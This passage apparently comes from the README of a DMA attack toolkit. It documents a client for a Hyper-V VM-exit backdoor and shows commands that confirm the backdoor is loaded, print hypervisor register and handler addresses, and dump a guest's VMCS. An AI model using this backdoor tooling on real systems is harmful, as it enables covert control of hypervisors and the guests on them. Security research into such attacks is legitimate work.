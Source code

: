 Example of Hyper-V debug messages on attack target screen during platform init:

<img src="images/backdoor_hv.jpg" width="640" height="362">

Client program `payloads/DmaBackdoorHv/backdoor_client.exe` is used to interact with the Hyper-V backdoor from the guest partition. Check if backdoor is loaded:

```
> backdoor_client.exe 0
[+] Running on CPU #0
[+] VM exit backdoor is present

      Hypervisor CR0: 0x80010031
      Hypervisor CR3: 0x7aa000
      Hypervisor CR4: 0x42260
 Hypervisor IDT base: 0xfffff80005c78040 (limit = 0xffff)
  Hypervisor GS base: 0xfffff80005c7b000
     VM exit handler: 0xfffff8000588c410
       VM exit count: 0xeecbec

Press any key to quit...
```

Dumping VMCS structure of the current guest:

```
> backdoor_client.exe 0 --vmcs
[+] Running on CPU #0
[+] VMCS dump:

             GUEST_ES_SELECTOR: 0x2b
             GUEST_CS_SELECTOR: 0x33
             GUEST_SS_SELECTOR: 0x2b
             GUEST_DS_SELECTOR: 0x2b
             GUEST_FS_SELECTOR: 0x53
             GUEST_GS_SELECTOR: 0x2b
           GUEST_LDTR_SELECTOR: 0x0
             GUEST_TR_SELECTOR: 0x40
              HOST_ES_SELECTOR: 0x20
              HOST_CS_SELECTOR: 0x10
              HOST_SS_SELECTOR: 0x20
              HOST_DS_SELECTOR: 0x20
              HOST_FS_SELECTOR: 0x20
              HOST_GS_SELECTOR: 0x20
              HOST_TR_SELECTOR: 0x30
                   IO_BITMAP_A: 0x7a3000
              IO_BITMAP_A_HIGH: 0x0
                   IO_BITMAP_B: 0x7a4000
              IO_BITMAP_B_HIGH: 0x0
                  GUEST_PDPTE0: 0x20000000000
                  GUEST_PDPTE1: 0x60000010000
                  GUEST_PDPTE2: 0x40000000000
                  GUEST_PDPTE3: 0x0
                   EPT_POINTER: 0x145f101e

  ...

```
